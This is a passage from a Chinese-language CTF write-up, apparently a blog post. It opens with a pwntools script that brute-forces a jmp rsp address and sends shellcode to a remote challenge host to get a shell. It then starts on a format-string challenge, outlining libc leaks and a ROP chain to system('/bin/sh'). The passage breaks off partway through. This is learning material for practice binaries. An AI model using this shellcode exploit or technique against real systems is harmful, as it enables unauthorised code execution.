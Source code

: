 - ```python
  from pwn import *
  
  jmp_rsp_base=0x40064b+0x64b-0x537-0x40 #为啥要减0x40,不待算了随便写的
  DEBUG=0
  
  for i in range(1,100):
      if DEBUG==1:
          sh=process('/mnt/hgfs/ctf/pwnstack')
      else:
          sh=remote('ha1cyon-ctf.fun',port)
      
      context.log_level='info'
      context(os='linux',arch='amd64')
      log.info("this is:"+str(i))
      
      jmp_rsp=jmp_rsp_base+i
      
      shellcode=asm(shellcraft.sh())
      payload=p64(0x9090909090909090)*5+shellcode+(0x60-len(shellcode))*'a'+p64(jmp_rsp)+p64(0xe4ff90c48348)
      print(shellcode)
      sh.sendafter('shellcode:\n',payload)
      
      sh.interactive()
  ```
  
  


### 3.format2

- 首先`checksec`

  ![image-20200422204504696](http://img.luooofan.site/20210927-162226-image-20200422204504696.png)

  开启了`NX堆栈不可执行`，`PIE地址随机化`，还有`Full RELRO`，无法修改got表，没有开`canary`保护

- ida打开分析

  ![image-20200422210644228](http://img.luooofan.site/20210927-162226-image-20200422210644228.png)

  格式化字符串溢出没跑了，双击`buf`可以看到`buf`在**bss段**，也就是说，循环读入0x64字节数据到`bss`段中，然后`printf`输出；如果输入等于`"66666666"`，跳出循环。

- 漏洞点找到了，这个时候思路大概是：

  - 利用printf溢出数据，such as：main返回地址，got表函数地址
  - 通过`LibcSearcher`计算得到libc基址，system函数地址和/bin/sh地址
  - 通过`ROPgadget`得到`pop rdi;ret;`地址
  - 构造ROP链，最后发送`"66666666"`，程序跳出循环，main返回到`system`函数，get shell
  
- 但是buf不在栈内，在bss段中，这就意味着没有办法像之前一样通过输入地址到栈中来实现任意读写，这个时候我们看向**printf 成链攻击**

- gdb调试

  - 输入`%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p`
  
- ![image-20200422214432013](http://img.luooofan.site/20210927-162227-image-20200422214432013.png)
  
  - 可以看到，前几个是传参寄存器的值
    
  
  第六个(`%6$p`)指向main函数之后的`__libc_csu_init()`，可以溢出该数据，然后经过计算得到buf、pop_rdi_ret的实际地址
  
  ```
